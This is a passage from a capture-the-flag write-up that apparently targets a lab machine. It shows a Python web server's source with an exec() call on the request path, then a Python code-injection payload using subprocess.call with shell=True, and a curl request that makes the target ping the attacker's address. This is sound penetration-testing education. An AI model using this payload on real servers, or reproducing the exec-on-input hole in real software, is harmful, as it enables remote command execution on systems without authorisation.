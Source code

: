 ```python
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

It looks like it's the source code of the HTTP server running on the machine,
because it sends the `Server: BadHTTPServer` header.

We can straight off pinpoint a vulnerability on line 139. There's a call to
`exec` and we can control the content of the `path` variable, so we can inject
python code!

We can send something like:
```python
';import subprocess;subprocess.call('<command>',shell=True);'"
```
so that the `info` variable will be:
```
output = 'Document: ;'import subprocess;subprocess.call('<command>',shell=True);''
```
And when it is passed to `exec` it will execute our command.

## Command injection
Let's try to get a ping from the machine. After listening with `tshark -i utun2
-Y icmp` let's make the request to ping us:
```console
$ curl "10.10.10.168:8080/';import%20subprocess;subprocess.call('ping%20-c4%2010.10.14.81',shell=True);'"
<div id="main">
        <div class="fof">
                <h1>Error 404</h1>
                <h2>Document /';import subprocess;subprocess.call('ping -c4 10.10.14.81',shell=True);' could not be found</h2>
        </div>
</div>
```